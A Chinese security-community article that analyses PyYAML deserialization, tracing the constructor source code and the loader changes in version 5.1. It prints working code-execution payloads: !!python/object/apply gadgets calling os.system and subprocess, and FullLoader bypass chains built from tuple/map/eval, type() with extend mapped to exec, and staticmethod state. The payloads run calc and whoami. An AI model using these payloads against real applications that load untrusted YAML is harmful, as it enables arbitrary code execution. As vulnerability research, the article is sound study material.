# PYYAML反序列化详细分析-先知社区

> **来源**: https://xz.aliyun.com/news/16541  
> **文章ID**: 16541

---

## 前言

最近看了很多pyyaml反序列化的漏洞利用，但是对漏洞怎么来的，想好好学习一下。

## Yaml基本语法

* 一个 .yml 文件中可以有多份配置文件，用 --- 隔开即可
* 对大小写敏感
* YAML 中的值，可使用 json 格式的数据
* 使用缩进表示层级关系
* 缩进时不允许使用 tab（\t），只允许使用空格。
* 缩进的空格数目不重要，只要相同层级的元素左侧对齐即可。
* !! 表示强制类型装换
* 可以通过 & 来定义锚点，使用  *来引用锚点。* 也可以和 << 配合，引用时会自动展开对象，类似 Python 的 \*\*dict()
* YAML 支持的数据结构有三种
* 对象：键值对的集合
* 列表：一组按次序排列的值
* 标量（scalars）：原子值（不可再拆分），例如 数字、日期等等
* 可以通过 !! 来进行类型转换

## yaml版本<5.1


### !!python/object标签

```
def construct_python_object_apply(self, suffix, node, newobj=False):
        # Format:
        #   !!python/object/apply       # (or !!python/object/new)
        #   args: [ ... arguments ... ]
        #   kwds: { ... keywords ... }
        #   state: ... state ...
        #   listitems: [ ... listitems ... ]
        #   dictitems: { ... dictitems ... }
        # or short format:
        #   !!python/object/apply [ ... arguments ... ]
        # The difference between !!python/object/apply and !!python/object/new
        # is how an object is created, check make_python_instance for details.
        if isinstance(node, SequenceNode):
            args = self.construct_sequence(node, deep=True)
            kwds = {}
            state = {}
            listitems = []
            dictitems = {}
        else:
            value = self.construct_mapping(node, deep=True)
            args = value.get('args', [])
            kwds = value.get('kwds', {})
            state = value.get('state', {})
            listitems = value.get('listitems', [])
            dictitems = value.get('dictitems', {})
        instance = self.make_python_instance(suffix, node, args, kwds, newobj)
        if state:
            self.set_python_instance_state(instance, state)
        if listitems:
            instance.extend(listitems)
        if dictitems:
            for key in dictitems:
                instance[key] = dictitems[key]
        return instance

    def construct_python_object_new(self, suffix, node):
        return self.construct_python_object_apply(suffix, node, newobj=True)

```

它定义了两个方法 construct\_python\_object\_apply 和 construct\_python\_object\_new，用于解析特定的 YAML 标签 (!!python/object/apply 和 !!python/object/new) 并创建相应的 Python 对象。这两个标签允许用户通过 YAML 文件来实例化 Python 类，并传递参数、关键字参数、状态等信息。

### !!python/object/new标签

```
def construct_python_object_new(self, suffix, node):
        return self.construct_python_object_apply(suffix, node, newobj=True)

```

### !!python/object/apply标签

```
def construct_python_object_apply(self, suffix, node, newobj=False):
        # Format:
        #   !!python/object/apply       # (or !!python/object/new)
        #   args: [ ... arguments ... ]
        #   kwds: { ... keywords ... }
        #   state: ... state ...
        #   listitems: [ ... listitems ... ]
        #   dictitems: { ... dictitems ... }
        # or short format:
        #   !!python/object/apply [ ... arguments ... ]
        # The difference between !!python/object/apply and !!python/object/new
        # is how an object is created, check make_python_instance for details.
        if isinstance(node, SequenceNode):
            args = self.construct_sequence(node, deep=True)
            kwds = {}
            state = {}
            listitems = []
            dictitems = {}
        else:
            value = self.construct_mapping(node, deep=True)
            args = value.get('args', [])
            kwds = value.get('kwds', {})
            state = value.get('state', {})
            listitems = value.get('listitems', [])
            dictitems = value.get('dictitems', {})
        instance = self.make_python_instance(suffix, node, args, kwds, newobj)
        if state:
            self.set_python_instance_state(instance, state)
        if listitems:
            instance.extend(listitems)
        if dictitems:
            for key in dictitems:
                instance[key] = dictitems[key]
        return instance

```

!!python/object/new 和 !!python/object/apply 的实现非常相似，主要区别在于传递给 make\_python\_instance 函数的 newobj 参数。这个参数决定了对象创建的方式：使用类构造函数 (**new** 方法) 或者直接调用类 (**init** 方法)。

make\_python\_instance 函数是 PyYAML 库中用来根据提供的信息创建 Python 对象的核心部分。它会解析标签中的模块和类名，并尝试导入相应的 Python 模块和类，然后根据提供的参数来实例化这些类。如果允许执行任意的 Python 类实例化，那么就可以导致执行任意命令或代码。

跟进make\_python\_instance()

  
发现其中又调用了 find\_python\_name()，跟进一下



```
检查名称是否为空:
    如果 name 为空，则抛出 ConstructorError，提示需要非空的名称。

解析模块名和对象名:
    如果 name 中包含点 (.)，则使用 rsplit('.', 1) 将其拆分为模块名和对象名。
    如果 name 中不包含点，则默认模块名为 builtins，对象名为 name。

导入模块:
    使用 __import__(module_name) 尝试导入指定的模块。
    如果导入失败（即抛出 ImportError），则抛出 ConstructorError，提供错误信息。

获取模块实例:
    通过 sys.modules[module_name] 获取已导入模块的实例。

检查模块中是否存在对象:
    使用 hasattr(module, object_name) 检查模块中是否存在指定的对象。
    如果不存在，则抛出 ConstructorError，提供错误信息。

返回对象:
    使用 getattr(module, object_name) 获取并返回模块中的对象。
```

漏洞poc：

```
# poc = '!!python/object/apply:subprocess.check_output [["calc.exe"]]'
# poc = '!!python/object/apply:os.popen ["calc.exe"]'
# poc = '!!python/object/apply:subprocess.run ["calc.exe"]'
# poc = '!!python/object/apply:subprocess.call ["calc.exe"]'
# poc = '!!python/object/apply:subprocess.Popen ["calc.exe"]'
# poc = '!!python/object/apply:os.system ["calc.exe"]'

# !!python/object/apply:os.system ["calc.exe"]
# !!python/object/new:os.system ["calc.exe"]
# !!python/object/new:subprocess.check_output [["calc.exe"]]
# !!python/object/apply:subprocess.check_output [["calc.exe"]]

```

## 分析反序列化是怎么进行的

首先会来到get\_single\_data 函数

```
def get_single_data(self):
    # Ensure that the stream contains a single document and construct it.
    node = self.get_single_node()
    if node is not None:
        return self.construct_document(node)
    return None

```

```
获取单个节点：self.get_single_node() 方法用于从输入流中获取一个单一的 YAML 节点。
检查节点：如果节点不为空，则调用 self.construct_document(node) 来构建文档。
返回结果：如果节点为空，则返回 None。
```

跟进construct\_document 函数

```
def construct_document(self, node):
    data = self.construct_object(node)

    while self.state_generators:
        state_generators = self.state_generators
        self.state_generators = []
        for generator in state_generators:
            for dummy in generator:
                pass

    self.constructed_objects = {}
    self.recursive_objects = {}
    self.deep_construct = False

    return data

```

```
构建对象：self.construct_object(node) 方法用于根据给定的节点构建 Python 对象。
处理状态生成器：通过 while 循环处理状态生成器（state_generators），这些生成器通常用于处理复杂的 YAML 结构。
    保存当前状态生成器：将当前的状态生成器保存到 state_generators 变量中，并清空 self.state_generators。
    遍历生成器：遍历每个生成器并执行相应的操作。
重置构造对象：重置一些内部状态变量：
    self.constructed_objects：存储已构造的对象。
    self.recursive_objects：存储递归对象。
    self.deep_construct：控制是否进行深度构造。
返回数据：最终返回构建好的数据。
```

跟进construct\_object 函数

```
def construct_object(self, node, deep=False):
    if node in self.constructed_objects:
        return self.constructed_objects[node]
    if deep:
        old_deep = self.deep_construct
        self.deep_construct = True
    if node in self.recursive_objects:
        raise ConstructorError(None, None,
                               "found unconstructable recursive node", node.start_mark)
    self.recursive_objects[node] = None
    constructor = None
    tag_suffix = None
    if node.tag in self.yaml_constructors:
        constructor = self.yaml_constructors[node.tag]
    else:
        for tag_prefix in self.yaml_multi_constructors:
            if node.tag.startswith(tag_prefix):
                tag_suffix = node.tag[len(tag_prefix):]
                constructor = self.yaml_multi_constructors[tag_prefix]
                break
        else:
            if None in self.yaml_multi_constructors:
                tag_suffix = node.tag
                constructor = self.yaml_multi_constructors[None]
            elif None in self.yaml_constructors:
                constructor = self.yaml_constructors[None]
            elif isinstance(node, ScalarNode):
                constructor = self.__class__.construct_scalar
            elif isinstance(node, SequenceNode):
                constructor = self.__class__.construct_sequence
            elif isinstance(node, MappingNode):
                constructor = self.__class__.construct_mapping
    if tag_suffix is None:
        data = constructor(self, node)
    else:
        data = constructor(self, tag_suffix, node)
    if isinstance(data, types.GeneratorType):
        generator = data
        data = next(generator)
        if self.deep_construct:
            for dummy in generator:
                pass
        else:
            self.state_generators.append(generator)
    self.constructed_objects[node] = data
    del self.recursive_objects[node]
    if deep:
        self.deep_construct = old_deep
    return data

```

分析construct\_object 函数

```
if node in self.constructed_objects:
            return self.constructed_objects[node]
        if deep:
            old_deep = self.deep_construct
            self.deep_construct = True
        if node in self.recursive_objects:
            raise ConstructorError(None, None,
                    "found unconstructable recursive node", node.start_mark)
        self.recursive_objects[node] = None
        constructor = None
        tag_suffix = None

```

这里进行了几个判断，跟一下可以看到是空的，所以会跳过，然后就进行了三次none赋值



```
for tag_prefix in self.yaml_multi_constructors:
    if node.tag.startswith(tag_prefix):
        tag_suffix = node.tag[len(tag_prefix):]
        constructor = self.yaml_multi_constructors[tag_prefix]

```

这一行代码是 construct\_object 方法中用来匹配多构造器（multi-constructors）的关键部分。它遍历 self.yaml\_multi\_constructors 字典中的所有前缀，并检查当前节点的标签（node.tag）是否以这些前缀之一开头。如果找到匹配的前缀，它会分割标签并选择相应的构造函数来处理节点

```
if node.tag.startswith(tag_prefix):

```

```
node.tag 是当前 YAML 节点的标签。
startswith(tag_prefix) 方法用于检查 node.tag 是否以 tag_prefix 开头。
如果匹配成功，则进入条件块继续执行。
```

```
tag_suffix = node.tag[len(tag_prefix):]

```

```
len(tag_prefix) 计算前缀的长度。
node.tag[len(tag_prefix):] 从标签中去除前缀部分，剩下的就是 tag_suffix。
tag_suffix 将被用作后续构造函数调用的参数之一。
```

```
constructor = self.yaml_multi_constructors[tag_prefix]

```

```
根据匹配到的前缀，从 self.yaml_multi_constructors 中选择对应的构造函数。
constructor 变量现在指向这个构造函数，它将在后续步骤中被调用来处理节点。
```

示例：

```
!!python/object/apply:os.popen ["calc.exe"]

```

在这个例子中：

```
node.tag 的值为 tag:yaml.org,2002:python/object/apply
self.yaml_multi_constructors 包含一个条目，其键为 tag:yaml.org,2002:python/object/apply。
```

当循环遍历 self.yaml\_multi\_constructors 时，tag\_prefix 会与 node.tag 匹配成功，因为 node.tag 确实以 tag:yaml.org,2002:python/object/apply 开头。

```
tag_suffix 会被设置为空字符串，因为标签完全匹配了前缀。
constructor 会被设置为处理 python/object/apply 类型对象的构造函数。
```

  
data = calc.exe 赋值给了 constructed\_objects[node]

随后来到construct\_python\_object\_apply 方法

  
construct\_python\_object\_apply 方法是用于处理 !!python/object/apply 标签的  
data = 'calc.exe' 是最终赋值给 constructed\_objects[node] 的结果，我们可以推测以下步骤：

```
构造参数：
    如果节点是一个序列，那么 args 将被设置为 ['calc.exe']。
    如果节点是一个映射，那么 args 可能是从映射中提取的。

创建实例：
    make_python_instance 方法将使用 args 来创建一个实例。在这个例子中，args 包含 'calc.exe'。
然后调用 make_python_instance 方法创建 os.popen 实例，并传递 ['calc.exe'] 作为参数。
```

最终，os.popen("calc.exe") 被执行，并且结果被存储到 constructed\_objects[node] 中

接下来调用了 make\_python\_instance()

  
再到find\_python\_name方法  
  
触发反序列化漏洞



调用栈：

```
construct_python_object_apply, constructor.py:606
construct_object, constructor.py:88
construct_document, constructor.py:41
get_single_data, constructor.py:37
load, __init__.py:72

```

## 版本=5.1

  
当版本变高后，之前的payload就执行不了了  
  
从报错也可以很清晰的看出反序列化的调用链

PyYAML 5.1 版本引入了一个重要的安全更改，它改变了默认的加载器行为。在 PyYAML 5.1 之前的版本中，默认的 yaml.load() 使用的是不安全的加载器 (FullLoader)，它可以解析所有 YAML 标签，包括那些可以执行任意 Python 代码的标签（如 !!python/object 和 !!python/name）。这虽然提供了强大的功能，但也带来了潜在的安全风险。

从 PyYAML 5.1 开始，默认的 yaml.load() 函数被更改为发出警告，并推荐使用安全的加载器来代替。为了提高安全性，如果你需要解析不受信任的输入，你应该使用 yaml.safe\_load()，它只支持标准的 YAML 标签，而不会解析可能危险的 Python-specific 标签。如果你想保留旧的行为，你需要明确地指定 Loader=FullLoader 参数给 yaml.load() 函数。

因此，当你使用大于 5.1 的 PyYAML 版本时，如果你直接调用 yaml.load() 而没有指定 Loader 参数，并且你的 YAML 文件包含了复杂的 Python 对象或函数（例如 !!python/object/apply:os.popen），那么就会报错，因为默认情况下它现在使用的是安全加载器，该加载器无法解析这些标签。

当使用 yaml.load() 而不指定 Loader 参数时，默认行为现在是发出警告，并使用安全加载器。在安全模式下，PyYAML 对 Python 类实例的构造增加了额外的限制，即 make\_python\_instance 方法中的 if not (unsafe or isinstance(cls, type)) 检查。这意味着，在安全模式下，解析进来的 module.name 必须引用一个实际的类（例如内置类型如 int、str 等），而不是任意的对象或函数。

### 关于类加载器

```
BaseConstructor：仅加载最基本的YAML
SafeConstructor：安全加载Yaml语言的子集，建议用于加载不受信任的输入（safe_load)
FullConstructor：加载的模块必须位于 sys.modules 中（说明程序已经 import 过了才让加载）。这个是默认的加载器。
UnsafeConstructor（也称为Loader向后兼容性）：原始的Loader代码，可以通过不受信任的数据输入轻松利用（unsafe_load）
Constructor：等同于UnsafeConstructor

```

### 先来看在FullConstructor加载器

```
单纯引入模块：如果只是为了引入一个模块而不执行任何命令，那么这个模块必须存在于 sys.modules 字典中。这意味着只有已经加载到 Python 进程中的模块才能被引用。

引入并执行模块：如果不仅需要引入模块，还需要执行某些操作（例如构造对象），那么这个模块也必须在 sys.modules 中，并且加载进来的 module.name 必须是一个类。也就是说，YAML 文件中指定的对象必须是一个实际的类，而不是任意的函数或可调用对象。
```

也就是说如果一个类满足在 FullConstructor 上下文中的 sys.modules 里，同时它还有一个类，那么这个类可以执行命令  
遍历一下看看 builtins模块 下的所有方法  
这里挑选出map来触发函数执行，tuple来将内容输出  
这是我们需要执行的

```
tuple(map(eval, ["__import__('os').system('calc')"]))

```

拼接一下

```
yaml.load("""
!!python/object/new:tuple
- !!python/object/new:map
  - !!python/name:eval
  - ["__import__('os').system('calc')"]
""")

```

如果我们使用set的话，没有回显，  
  
**new** 方法的工作原理

```
1.类的实例化：
    当你使用构造函数（如 tuple() 或 list()）创建一个新对象时，Python 首先调用该类的 __new__ 方法。
    __new__ 负责分配内存并返回一个新的空对象实例。

2.初始化：
    在 __new__ 返回新实例之后，Python 会调用 __init__ 方法来初始化这个实例。
    对于不可变类型（如 tuple），__init__ 通常不会做任何事情，因为在 __new__ 中已经完成了所有必要的初始化工作。
```

**new**方法 是一个在对象创建之前调用的静态方法，用于创建对象实例并返回该实例。它负责对象的创建过程，并接收类作为第一个参数（通常是cls）,这通过这个方法后，我们的源代码其实就变成了tuple.**new**(tuple, map(eval,['**import**("os").system("whoami")']))``list.**new**(list, map(eval, ['**import**("os").system("whoami")']))

在python的底层原理中，list 和 tuple 它们在内存中的存储方式有所不同：

```
列表（list）是一种可变类型，它的元素可以被修改。在内存中，列表是由一个数组来表示的，这个数组存储了元素的引用（指针）。当向列表中添加或删除元素时，列表会动态调整数组的大小以适应变化。
元组（tuple）是一种不可变类型，它的元素不可被修改。在内存中，元组是由固定长度的数组来表示的，数组中存储了元素的值。由于元组不可变，因此在创建时就确定了元素的数量和值，不能添加、删除或修改元素。
```

由于元组是不可变的，因此在创建元组时就需要提供元素。创建元组的过程涉及调用元组类的 **new** 方法来创建实例，并将元素作为参数传递给 **new** 方法，然后再调用 **init** 方法进行初始化。因此，元组的元素是在 **new** 和 **init** 阶段都得到了传递和处理的。

列表的创建过程也类似，但由于列表是可变的，因此在创建列表时不需要提供元素。列表的 **new** 方法会创建一个空的列表实例，

这就是为什么list方法没有回显的原因。为了避免这个问题，我们可以使用不可变类型的（frozenset、bytes、tuple）。

### extend

在construct\_python\_object\_apply 中如果存在listitems就会调用extend方法


```
exp = type("exp", (), {"extend": eval})
exp.extend("__import__('os').system('whoami')")

```

```
动态创建类：使用 type() 函数创建了一个名为 exp 的新类，该类有一个名为 extend 的属性，这个属性实际上是指向 Python 内置函数 eval 的引用。

执行系统命令：调用 exp.extend() 方法时，实际上是调用了 eval 函数，并传入一个字符串作为参数。这个字符串是一个表达式，当它被 eval 解析和执行时，会导入 os 模块并调用 system 函数来执行 'whoami' 命令。（这里把extend视为eval来用）
```

所以可以构造

```
import yaml

yaml.load("""
!!python/object/new:type
args:
  - exp
  - !!python/tuple []
  - {"extend": !!python/name:exec }
listitems: "__import__('os').system('whoami')"

""")

```

组合拳

```
import yaml

payload = """
- !!python/object/new:str
    args: []
    state: !!python/tuple
    - "__import__('os').system('whoami')"
    - !!python/object/new:staticmethod
      args: [0]
      state:
        update: !!python/name:exec
"""
yaml.load(payload)

```

# 参考文章

<https://forum.butian.net/share/2288>  
<https://blog.csdn.net/snowlyzz/article/details/130536626>
